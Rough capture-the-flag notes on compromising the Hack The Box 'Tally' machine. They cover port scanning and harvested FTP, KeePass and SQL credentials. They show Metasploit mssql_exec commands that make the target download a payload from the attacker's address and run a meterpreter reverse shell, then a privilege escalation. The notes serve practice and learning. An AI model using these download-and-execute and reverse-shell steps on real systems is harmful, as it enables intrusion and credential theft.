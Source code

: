**ROUGH WORK**




PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
81/tcp    open  hosts2-ns
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
808/tcp   open  ccproxy-http
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
15567/tcp open  unknown
32843/tcp open  unknown
32844/tcp open  unknown
32846/tcp open  unknown
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown




=> http://github.com/sensepost/SPartan
	pip install requests_ntlm
	python SPartan.py -u http://tally.htb -sfcv

=> http://tally.htb/Shared%20Documents/Forms/AllItems.aspx

FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in

	ftp_user
	UTDRSCH53c"$6hys

=> Tim has keepass file 
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
CRACKED: simplementeyo

=> KEEPASS DATA:
TALLY ACCT share : Finance : Acc0unting
CISCO : cisco : cisco123
PDF Writer : 64257-56525-54257-54734 : 


=> SMB SHARE:
smbclient -L tally.htb -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Domain=[TALLY] OS=[Windows Server 2016 Standard 14393] Server=[Windows Server 2016 Standard 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Connection to tally.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available


=> MOUNTING THE ACCT: mount -t cifs -o username=Finance,password=Acc0unting //10.10.10.59/ACCT /mnt
Strings zz_Migration\Binaries\New folder\tester.exe
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

=>  use auxiliary/admin/mssql/mssql_exec
Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                                  Required  Description
   ----                 ---------------                                  --------  -----------
   CMD                  cmd.exe /c type C:\Users\Sarah\Desktop\user.txt  no        Command to execute
   PASSWORD             GWE3V65#6KFH93@4GWTG2G                           no        The password for the specified username
   RHOST                10.10.10.59                                      yes       The target address
   RPORT                1433                                             yes       The target port (TCP)
   TDSENCRYPTION        false                                            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                            yes       Use windows authentification (requires DOMAIN option set)

user.txt
be72362e8dffeca2b42406d5d1c74bb1


=> SHELL:
Use veil (22) powershell meterpreter reverse tcp
Get code in Tally1.bat
Start Listner

use auxiliary/admin/mssql/mssql_exec
PASSWORD             GWE3V65#6KFH93@4GWTG2G 
RHOST                10.10.10.59

set CMD powershell.exe /c Invoke-WebRequest -Uri 10.10.14.198/Tally1.bat -OutFile C:\\Users\\Sarah\\rev.bat
run
set CMD cmd.exe /c C:\\Users\\Sarah\\rev.bat
run

=> upgrade to x64
use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp

=> Root Potato Doh!


![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")
